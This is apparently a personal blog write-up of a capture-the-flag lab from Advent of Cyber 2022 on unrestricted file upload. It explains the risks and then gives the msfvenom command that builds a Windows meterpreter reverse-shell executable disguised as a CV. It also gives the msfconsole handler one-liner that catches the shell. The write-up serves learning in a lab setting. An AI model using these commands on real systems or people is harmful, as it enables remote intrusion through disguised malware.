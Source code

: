 ```yaml
---
title: "Post 15 - AoC 2022 Begins"
date: 2022-12-15
---
```

## Task 20, Day 15, <code>Secure Coding</code> Santa is looking for a Sidekick
Another security concern for web apps is insufficient input validation. Occurs when user-provided input is inherently trusted by the application. *I think I know where this is going.* SQL Injection, Cross Site Scripting, and Unrestricted File Upload stem from this issue. UFU can allow an attakcer to host and/or serve illegal content or leak sensitive information. Usually has two main paths:
- If attacker can retrieve the uploaded file it can lead to code execution if he uploads a file like a web shell.
- If the file is viewed by a user, then malware could be embedded that would execute on the user's workstation when they view it.

Even storing uploaded files outside the web root could pose a danger through local file inclusion vulns that could force the seb server itself to recover the file, allowing for RCE.

Since people will be looking at the files uploaded, and there's no restrictions on the file type uploaded, the people can be targeted with malware embedded files. 


### The Task
Gain flag from particular user's documents directory.

In this case, create a CV with a mlicious macro embedded using Metasploit. <code>msfvenom -p windows/x64/meterpreter.reverse_tcp LHOST=tun0 LPORT="Listening port" -f exe -o cv-username.exe</code> where tun0 is the listening (own) IP address and "Listening port" is random port number chosen to listen on.

Setup listener with <code>sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 'listening port'; exploit"</code> where tun0 and 'listening port' are same as previous step. 

Once person interacts folder the reverse shell is launched and digging around can commence. 

Flag captured, all questions answered. Even though several answers are just in the text, I might come back later to list methods of protection after the event is over.